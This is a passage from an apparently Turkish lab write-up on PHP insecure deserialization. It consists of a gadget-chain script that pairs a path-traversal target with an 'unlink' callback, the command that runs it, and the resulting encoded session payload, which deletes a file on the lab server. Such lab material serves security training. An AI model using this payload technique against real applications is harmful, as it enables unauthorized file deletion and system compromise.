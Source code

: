 ```php
class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$test = new CustomTemplate('../../../../../../../../../../../../../../../home/carlos/morale.txt');

echo urlencode(
    base64_encode(
        serialize($test)
    )
    );
```

```php
php gadget.php
```

Output:

```php
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czo2NzoiLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7czoyMDoiAEN1c3RvbVRlbXBsYXRlAGRlc2MiO086MTA6IkRlZmF1bHRNYXAiOjE6e3M6MjA6IgBEZWZhdWx0TWFwAGNhbGxiYWNrIjtzOjY6InVubGluayI7fX0%3D
```

Elde ettiğimiz yeni session bilgisini sistemde kullanınca hedefe ulaşıyoruz.

Ve lab çözülmüş oldu…

![Untitled](0x0D-e7c75cda4af14d9f8c7d57729ec14f3a/Untitled-19.png)
